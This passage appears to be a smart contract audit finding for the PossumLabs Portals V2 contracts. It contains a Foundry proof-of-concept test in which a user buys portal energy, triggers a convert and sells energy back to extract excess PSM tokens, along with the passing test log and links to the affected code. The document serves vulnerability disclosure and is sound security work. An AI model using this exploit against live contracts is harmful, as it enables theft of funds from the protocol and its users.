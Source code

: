 ## Proof of Concept (PoC)

- here is a PoC in the test file demonstrating how an attacker can exploit this to acquire more PSM tokens than they should:

```js
function test_poc() public {
    helper_prepareSystem();
    uint256 portalEnergy;
    (,,,,, portalEnergy,) = portal_USDC.getUpdateAccount(Alice, 0, true);
    // buy some portal energy :
    vm.startPrank(Alice);
    psm.approve(address(portal_USDC), 1e55);
    uint256 balPsmBefore = psm.balanceOf(Alice);
    portal_USDC.buyPortalEnergy(Alice, balPsmBefore, 1, block.timestamp);
    uint256 psmSpent = balPsmBefore - psm.balanceOf(Alice);
    vm.stopPrank();
    // convert :
    helper_executeConvert();
    //sell the same amount of portal energy :
    vm.startPrank(Alice);
    uint256 reserve1 = _TARGET_CONSTANT_USDC / _FUNDING_MIN_AMOUNT;
    uint256 netPSMinput = (balPsmBefore * 99) / 100;
    uint256 result = (netPSMinput * reserve1) / (netPSMinput + _FUNDING_MIN_AMOUNT);
    portal_USDC.sellPortalEnergy(Alice, result, 1, block.timestamp);
    // extracted value :
    uint256 valueExtracted = psm.balanceOf(Alice) - balPsmBefore;
    console2.log("value spend %e", psmSpent);
    console2.log("value extracted %e", valueExtracted);
}
```

- after running test :

```sh
Ran 1 test for test/V2MultiAsset/PortalV2MultiAssetTest.t.sol:PortalV2MultiAssetTest
[PASS] test_poc() (gas: 1709548)
Logs:
  transfer
  value spend 1e25
  value extracted 4.9747481092489761049104e22
```

## Location of Affected Code

https://github.com/PossumLabsCrypto/Portals/tree/810fd90645cccf6fd80d91f8050eff618f63af81/src/V2MultiAsset/PortalV2MultiAsset.sol#L556
https://github.com/PossumLabsCrypto/Portals/tree/810fd90645cccf6fd80d91f8050eff618f63af81/src/V2MultiAsset/PortalV2MultiAsset.sol#L608
https://github.com/PossumLabsCrypto/Portals/tree/810fd90645cccf6fd80d91f8050eff618f63af81/src/V2MultiAsset/VirtualLP.sol#L502

## Team Response
